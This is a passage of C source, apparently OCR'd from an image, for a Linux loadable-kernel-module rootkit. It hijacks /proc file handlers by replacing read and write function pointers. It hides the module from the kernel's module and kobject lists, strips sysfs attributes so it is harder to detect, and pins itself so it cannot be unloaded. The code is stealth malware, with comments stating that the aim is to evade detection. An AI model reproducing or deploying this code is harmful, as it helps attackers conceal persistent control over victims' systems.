 ```cpp
	fops = (struct file_operations *)ptr->proc_fops; /* Pointer to file_operations structure of infected entry */
	old_fops_read = fops->read;
	old_fops_write = fops->write;

	/* We replace write_proc/read_proc */
	if (ptr->write_proc)
		ptr->write_proc = buf_write;
	else if (ptr->read_proc)
		ptr->read_proc = buf_read;
	/* We replace read/write from file_operations */
	if (fops->write)
		fops->write = fops_write;
	else if (fops->read)
		fops->read = fops_read;

	/* There aren't any reading/writing functions? Error! */
	if (!ptr->read_proc && !ptr->write_proc &&
	!fops->read && !fops->write) {
		failed = 1;
		return;
	}
}

/* This functions does some "cleanups". If we don't set some pointers tu NULL,
   we can cause Oops during unloading rootkit. We free some structures,
   because we don't want to waste memory... */
static inline void tidy(void)
{
	kfree(THIS_MODULE->notes_attrs);
	THIS_MODULE->notes_attrs = NULL;
	kfree(THIS_MODULE->sect_attrs);
	THIS_MODULE->sect_attrs = NULL;
	kfree(THIS_MODULE->mkobj.mp);
	THIS_MODULE->mkobj.mp = NULL;
	THIS_MODULE->modinfo_attrs->attr.name = NULL;
	kfree(THIS_MODULE->mkobj.drivers_dir);
	THIS_MODULE->mkobj.drivers_dir = NULL;
}

/*
We must delete some structures from lists to make rootkit harder to detect.
*/
static inline void rootkit_hide(void)
{
	list_del(&THIS_MODULE->list);
	kobject_del(&THIS_MODULE->mkobj.kobj);
	list_del(&THIS_MODULE->mkobj.kobj.entry);
}

static inline void rootkit_protect(void)
{
	try_module_get(THIS_MODULE);
}

static int __init rootkit_init(void)
{
	module_remember_info();
	proc_init();
	if (failed)
		return 0;
	rootkit_hide();
	tidy();
```